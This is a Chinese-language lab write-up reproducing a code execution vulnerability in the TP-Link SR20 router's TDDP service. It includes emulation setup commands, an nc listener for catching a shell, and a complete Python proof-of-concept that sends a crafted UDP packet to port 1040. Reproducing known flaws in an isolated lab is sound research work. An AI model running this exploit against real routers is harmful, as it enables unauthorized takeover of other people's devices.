 # TP-Link SR20 本地代码执行漏洞

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- tddp（有漏洞服务）：192.168.2.2:1040
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/tpra_sr20v1_us-up-ver1-2-1-P522_20180518-rel77140_2018-05-21_08.42.04.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 等待启动完成，重新打开一个窗口
$ docker exec -it tplink-system /bin/bash

# 宿主机使用 nc 监听端口
$ nc -lvnp 1337

# 在另一个窗口执行 poc，执行的命令在 exe_nc 中
$ python2 tools/poc.py 192.168.2.2 /exe_nc
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(('', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;arbitrary" % sys.argv[2]
packet = packet + argument.encode()
sock_send.sendto(packet, (sys.argv[1], port_send))
sock_send.close()

response, addr = sock_receive.recvfrom(1024)
r = response.encode('hex')
print(r)
```

## 参考链接

- https://bbs.pediy.com/thread-263539.htm
